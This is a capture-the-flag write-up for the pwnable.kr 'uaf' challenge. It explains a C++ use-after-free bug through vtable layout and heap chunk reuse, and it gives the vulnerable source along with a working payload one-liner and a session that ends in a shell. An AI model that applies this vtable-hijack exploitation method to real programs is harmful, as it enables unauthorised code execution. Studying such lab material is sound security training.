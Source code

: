 # pwnable.kr -- Toddler's Bottle -- uaf
This challenge tells how terrible it would be if you use a released pointer. So every time you free/release a pointer, don't forget to set the pointer to a null pointer.

## 1. Challenge
  > Mommy, what is Use After Free bug?  
  >   
  > ssh uaf@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect target via ssh and see source code:
    ```cpp
    #include <fcntl.h>
    #include <iostream>
    #include <cstring>
    #include <cstdlib>
    #include <unistd.h>
    using namespace std;

    class Human{
    private:
        virtual void give_shell(){
                system("/bin/sh");
        }
    protected:
        int age;
        string name;
    public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
    };

    class Man: public Human{
    public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
    };

    class Woman: public Human{
    public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
    };

    int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
    }

    ```

  * We can see if we choose `"3. free"` and then choose `"1. use"`, it is a classical behavior called `"use after free"`. In this situation, we could not guarantee that it is the member function `introduce()` that is called.

  * If you do not know why, let's see the memory layout of each class:
    | offset |             class Human               |              class Man             |                class Woman           |
    |--------|---------------------------------------|------------------------------------|--------------------------------------|
    |   +0   | a pointer to `Human` class's vftable  | a pointer to `Man` class's vftable | a pointer to `Woman` class's vftable |
    |   +8   |               int age                 |               int age              |               int age                |
    |   +16  |           std::string name            |           std::string name         |           std::string name           |
    |   +24  |                 (end)                 |                (end)               |                 (end)                |

  * But what does the vftable of each class looks like? Well, you can see it in IDA:  

    ![vftables](vftables.png)

  * Now let's how virtual function is called:

    ![call_virtual_func](call_virtual_func.png)

    We can obviously see the program looks for vftable first, then calls the second function pointer which points to its own `introduce()` function.

  * However, you can see the third function pointer in the vftable points to a shell function that can get us a shell.

  * So if we try to modify the pointer pointing to the vftable, a wrong function wound be called when the program wants to call `introduce()`.

  * Now, there is a question: Is it possible to change such a pointer? Well, the answer is yes.

  * We know the size of each class' objects is 24 bytes. And the two objects, `m` and `w`, are allocated at heap.

  * After the two objects are deleted/released, the corresponding two heap chunks are marked free. If we allocated a heap chunk which has the same size with the size of the two objects, the returned address would probably be equal to `m` or `w`.

  * So we know how to do:
    ```bash
    uaf@ubuntu:~$ python3 -c "print('\x68\x15\x40\x00\x00\x00\x00\x00')" > /tmp/payload
    uaf@ubuntu:~$ ./uaf 24 "/tmp/payload"
    1. use
    2. after
    3. free
    3
    1. use
    2. after
    3. free
    2
    your data is allocated
    1. use
    2. after
    3. free
    2
    your data is allocated
    1. use
    2. after
    3. free
    1
    $ ls
    flag  uaf  uaf.cpp
    $
    ```
